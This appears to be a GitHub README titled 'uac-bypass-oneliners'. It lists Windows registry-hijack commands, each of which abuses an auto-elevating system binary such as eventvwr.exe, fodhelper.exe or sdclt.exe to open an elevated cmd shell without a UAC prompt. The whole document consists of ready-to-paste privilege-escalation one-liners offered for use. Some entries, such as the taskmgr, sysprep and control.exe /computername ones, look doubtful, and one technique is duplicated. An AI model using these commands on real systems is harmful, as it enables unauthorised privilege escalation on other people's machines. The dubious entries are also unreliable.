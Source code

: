 # uac-bypass-oneliners

Collection of one-liners to bypass User Account Control (UAC) in Windows. These techniques exploit certain behavior in Windows applications to elevate privileges.

Techniques
<br>
Using eventvwr.exe: <br> <br>

```

reg add "HKCU\Software\Classes\mscfile\shell\open\command" /v DelegateExecute /t REG_SZ /d "" /f && reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /t REG_SZ /d "cmd /c start cmd" /f && eventvwr.exe
```
<br>
Using fodhelper.exe: <br> <br>

```

reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe

```


Using computerdefaults.exe:<br> <br>

```

reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```
Using sdclt.exe:<br> <br>

```

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe /ve /t REG_SZ /d "cmd.exe" /f && start sdclt.exe
```
<br>
Using slui.exe:<br> <br>

```

reg add HKCU\Software\Classes\exefile\shell\open\command /ve /t REG_SZ /d "cmd.exe" /f && reg add HKCU\Software\Classes\exefile\shell\open\command /v DelegateExecute /f && start slui.exe
```

<br>
Using perfmon.exe: <br> <br>

```

reg add "HKCU\Software\Classes\mscfile\shell\open\command" /v DelegateExecute /t REG_SZ /d "" /f && reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /t REG_SZ /d "cmd /c start cmd" /f && start perfmon.exe
```

Using taskmgr.exe: <br><br>


```
reg add HKCU\Software\Classes\taskmgr\shell\open\command /ve /t REG_SZ /d "cmd.exe" /f && start taskmgr.exe
```

Using ComputerDefaults.exe: <br><br>
```
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && start computerdefaults.exe
```

Using sysprep.exe:

```

reg add HKCU\Software\Classes\AppID\{921C1A8B-9F15-4DA4-9235-0472C3A216E6} /f /ve /t REG_SZ /d "cmd.exe" && start C:\Windows\System32\sysprep\sysprep.exe
```

Using control.exe with /computername:

```

cmd /c reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /ve /d "cmd.exe" /f && control.exe /computername

```

